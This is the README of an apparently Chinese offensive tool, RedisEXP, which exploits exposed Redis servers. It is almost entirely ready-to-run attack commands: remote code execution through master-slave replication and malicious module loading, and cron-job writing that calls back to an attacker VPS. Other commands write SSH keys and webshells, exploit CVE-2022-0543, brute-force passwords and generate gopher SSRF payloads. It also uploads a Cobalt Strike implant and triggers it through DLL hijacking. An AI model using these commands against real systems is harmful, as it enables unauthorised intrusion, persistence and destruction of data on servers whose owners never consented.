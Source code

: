 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

**详细命令使用： `-h` 查看**


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

执行Redis命令：
RedisExp.exe -m cli -r 192.168.19.1 -p 6379 -w 123456 -c info

加载dll或so执行命令：
RedisExp.exe -m load -r 目标IP -p 目标端口 -w 密码 -rf (目标 dll | so 文件名)
.\RedisEXP.exe -m load -r 127.0.0.1 -p 6379 -rf exp.dll -n system -t system.exec

主从复制命令执行：
RedisExp.exe -m rce -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port [-c whoami 单次执行] -rf 目标文件名[exp.dll | exp.so (Linux)]
.\RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami
.\RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami -rf exp.so

主从复制上传文件：
RedisExp.exe -m upload -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port -rp 目标路径 -rf 目标文件名 -lf 本地文件
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -rp . -rf 1.txt -lf .\README.md

主动关闭主从复制：
RedisExp.exe -m close -r 目标IP -p 目标端口 -w 密码

写计划任务：
RedisExp.exe -m cron -r 目标IP -p 目标端口 -w 密码 -L VpsIP -P VpsPort
.\RedisEXP.exe -m cron -r 192.168.1.8 -p 6379 -L 192.168.1.8 -P 9001

写SSH 公钥：
RedisExp.exe -m ssh -r 目标IP -p 目标端口 -w 密码 -u 用户名 -s 公钥
.\RedisEXP.exe -m ssh -r 192.168.1.8 -p 6379 -u root -s ssh-aaaaaaaaaaaaaa

写webshell：
RedisExp.exe -m shell -r 目标IP -p 目标端口 -w 密码 -rp 目标路径 -rf 目标文件名 -s Webshell内容 [base64内容使用 -b 来解码]
.\RedisEXP.exe -m shell -r 127.0.0.1 -p 6379 -rp . -rf shell.txt -s MTIzNA== -b

CVE-2022-0543：
RedisExp.exe -m cve -r 目标IP -p 目标端口 -w 密码 -c 执行命令

爆破Redis密码：
RedisExp.exe -m brute -r 目标IP -p 目标端口 -f 密码字典
.\RedisEXP.exe -m brute -r 127.0.0.1 -p 6378 -f .\pass.txt

生成gohper：
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件

执行 bgsave：
RedisExp.exe -m bgsave -r 目标IP -p 目标端口 -w 密码

判断文件（需要绝对路径）：
RedisExp.exe -m dir -r 目标IP -p 目标端口 -w 密码 -rf c:\windows\win.ini

```



关闭Redis压缩(写入乱码的时候可以关闭压缩，工具在写入shell的时候默认添加了关闭压缩，写入后再恢复开启压缩)
```
config set rdbcompression no
```

`stop-writes-on-bgsave-error` 默认为 `yes`, 也就是如果 Redis 开启了 RDB 持久化并且最后一次失败了，Redis 默认会停止写入，让用户意识到数据的持久化没有正常工作。链接里面提供的解决方案是 `conf set stop-writes-on-bgsave-error` 设置为 no，只是让程序暂时忽略了这个问题，但是数据的持久化的问题并没有。（工具会默认设置为 `no` ，等工具退出的时候再重新设置回原来的值`yes`）

```
config set stop-writes-on-bgsave-error no
```


1. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。
2. 在写入webshell的时候因为有一些特殊字符，可以使用把webshell进行 base64 编码，然后使用 -b 参数来解码
3. 有空格的目录或文件同时使用双引号和单引号  `"'a b'"` 





### dll 劫持

利用dbghelp.dll：[https://github.com/P4r4d1se/dll_hijack](https://github.com/P4r4d1se/dll_hijack)

```
上传 cs 马
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp c:\users\public -rf test.exe  -lf artifact.exe

上传 dbghelp.dll 到 redis-server.exe 所在目录进行劫持
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp . -rf dbghelp.dll  -lf dbghelp.dll

触发dll劫持
.\RedisEXP.exe -m bgsave -r 127.0.0.1 -p 6378 -w 123456
```



### 生成gohper

```
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件
```

写shell模板

```
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
bgsave
```



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher
- [原创 Paper | Windows 与 Java 环境下的 Redis 利用分析](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)



